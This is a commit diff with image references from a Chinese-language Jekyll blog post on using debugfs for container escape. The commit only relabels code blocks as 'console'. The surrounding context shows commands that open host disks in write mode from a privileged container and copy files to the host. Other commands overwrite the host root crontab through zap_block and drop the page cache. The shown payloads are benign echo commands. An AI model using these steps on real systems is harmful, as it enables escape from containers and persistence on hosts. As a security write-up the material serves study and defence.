

Before and after one commit to Fun0nydg/Fun0nydg.github.io, a Jekyll site: the page built from _posts/2021-06-19-The-role-of-debugfs-in-container-escape .md, in a window 1280 px wide and 1400 px high, scrolled down 875 px. Shown: the whole window, without its empty margins (253-1026 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-06-19-The-role-of-debugfs-in-container-escape .md

````diff
--- a/_posts/2021-06-19-The-role-of-debugfs-in-container-escape .md
+++ b/_posts/2021-06-19-The-role-of-debugfs-in-container-escape .md
@@ -18,7 +18,7 @@ write source_file out_file
 通过`write`命令我们可以将容器中的文件复制到宿主机中。
 演示：
 实验环境：特权ubuntu容器
-```shell
+```console
 #在容器的bash中
 root@4da29cbf878a:/tmp$ echo test > /tmp/testfile.txt
 debugfs -w /dev/sda1 #读写模式打开/dev/sda1
@@ -34,7 +34,7 @@ ubuntu1@123:/tmp$ ls -l testfile-host.txt
 -rw-r--r-- 1 root root 5 Jun 17 10:44 testfile-host.txt
 ```
 可以看到，这里是可以读取的，并且文件是正常没有损坏的；如果我们写入一个计划任务，可能就不行了
-```bash
+```console
 root@4da29cbf878a:/tmp$ echo '* * * * * echo test1 >> /tmp/testfile1.txt' > root
 root@4da29cbf878a:/tmp$ debugfs -w /dev/dm-0
 debugfs 1.45.5 (07-Jan-2020)
@@ -68,7 +68,7 @@ inspired by a project named pagecache management (source: fadv.c slightly edited
 This caused the kernel to load our changes and we were finally able to propagate them to the Docker host filesystem:
 ```
 文中提到了通过`zap_block`去修改文件，再通过`ln`将修改成功的宿主机文件链接到容器中`upperdir`目录下，再通过 `posix_fadvise`从缓存中丢弃，这样就能够避免缓存的影响:
-```shell
+```console
 root@1fae4e0f04c8:/tmp$ debugfs -w /dev/dm-0
 debugfs 1.45.5 (07-Jan-2020)
 debugfs:  blocks /var/spool/cron/crontabs/root #获取文件的blocks
@@ -80,7 +80,7 @@ root@1fae4e0f04c8:/tmp$ ./fav root  #丢弃数据，避免缓存影响
 ```
 这里我们通过`zap_block`修改了blocks为2694190的文件，也就是我们的/var/spool/cron/crontabs/root文件，从15位开始，向后3个长度，替换为ASCII值为41的字符A。修改完了之后再通过posix_fadvise，立即从`page cache`中丢弃数据，这样就不会有页面缓存的问题，编译的fav文件参考<https://github.com/tsarpaul/pagecache-management/blob/master/fadv.c>
 这时我们返回宿主机，查看root用户的计划任务:
-```bash
+```console
 ubuntu1@123:~$ sudo cat /var/spool/cron/crontabs/root
 * * * * * echo AAAt >> /tmp/root1.txt
 ```
````
